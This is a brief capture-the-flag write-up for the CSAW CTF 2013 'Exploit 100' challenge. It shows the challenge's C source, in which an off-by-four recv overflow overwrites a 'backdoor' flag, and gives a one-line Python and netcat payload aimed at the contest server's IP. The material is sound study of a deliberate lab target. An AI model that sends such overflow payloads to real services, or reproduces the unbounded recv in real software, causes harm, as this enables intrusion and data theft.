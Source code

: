 ```yaml
---
layout: post
title:  "CSAW CTF 2013 - Exploit 100"
---
```


Source for exploit 100 were provided:

```c

void handle(int newsock) {
    int backdoor = 0;
	char buffer[1016];
	memset(buffer, 0, 1016);

	send(newsock, "Welcome to CSAW CTF.", 21, 0);
	recv(newsock, buffer, 1020, 0);
	buffer[1015] = 0;

	if ( backdoor ) {
		fd = fopen("./key", "r");
		fscanf(fd, "%s\n", buffer);
		send(newsock, buffer, 512, 0);
	}
	close(newsock);
}

```

To print the key, we need to set `backdoor` to something else than `0`. This can be done by a simple buffer overflow. the `recv` function read 1020 bytes into a buffer of 1016 bytes. The 4 extra bytes are going to overwrite the `backdoor`'s value.

To get the key:
`python -c "print '\xff' * 1020" | nc 128.238.66.212 31337`

